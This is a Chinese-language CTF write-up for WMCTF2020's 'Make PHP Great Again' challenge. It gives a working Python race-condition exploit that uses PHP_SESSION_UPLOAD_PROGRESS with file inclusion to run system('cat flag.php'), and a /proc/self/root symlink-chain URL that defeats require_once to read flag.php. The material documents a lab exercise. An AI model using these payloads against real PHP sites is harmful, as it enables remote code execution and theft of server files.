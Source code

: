 # [WMCTF2020]Make PHP Great Again



## 前言

突然想到今年WMCTF2021 赵总出的那道Web还没去复现，就打算复现一波，然后又想到去年的Make PHP Great Again也还没复现，就先来buuctf上面复现一下这个题目。



## 非预期

没啥好说的了，文件包含，PHP_SESSION_UPLOAD_PROGRESS万能非预期：

```php
import io
import sys
import requests
import threading

host = 'http://a4b822a9-e181-4395-b9be-014a4acc375e.node4.buuoj.cn:81/'
sessid = 'feng'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat flag.php');echo md5('1');?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'{host}?file=/tmp/sess_{sessid}')
        # print(response.text)
        if 'c4ca4238a0b923820dcc509a6f75849b' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)
```



## 预期解

官方wp这样说的：

> PHP最新版 的小 Trick， require_once 包含的软链接层数较多事 once 的 hash 匹配会直接失效造成重复包含。



`/proc/self/`是指向当前进程的`/proc/pid/`，而`/proc/self/root`是指向`/`的软连接，所以让软连接层数变多即可造成重复包含：

```
http://a4b822a9-e181-4395-b9be-014a4acc375e.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```


